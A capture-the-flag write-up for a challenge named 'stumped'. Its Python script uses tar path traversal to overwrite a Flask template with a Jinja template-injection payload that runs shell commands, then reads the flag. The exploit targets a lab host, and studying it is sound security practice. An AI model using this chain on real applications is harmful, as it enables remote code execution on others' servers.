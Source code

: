 # stumped
 use the tar arb write to overwrite the template tree.html with flask template injection code. however need to be careful, must not visit / before overwriting or it won't work. probably because flask caches the html once you load it? not sure.
 
```
import requests
import tarfile

with open('test.txt', 'w') as f:
    f.write("""{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}
            {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}""")
with tarfile.open('my_archive.tar', 'w:xz') as tar:
    # tar.add('test.txt', arcname='../templates/tree.html')
    tar.add('test.txt', arcname='../../../../../../../../../../../../../../../../opt/app/templates/tree.html')

url = 'https://thecybercoopctf-4e58b65f13e3-stumped-1.chals.io'
file_path = './my_archive.tar'

files = {'file': open(file_path, 'rb')}
response = requests.post(f"{url}/show_tree", files=files)

print(response.text)

print(requests.get(url).text)
```
# flag{n0t_5tump3d_4nym0r3!}
# nice

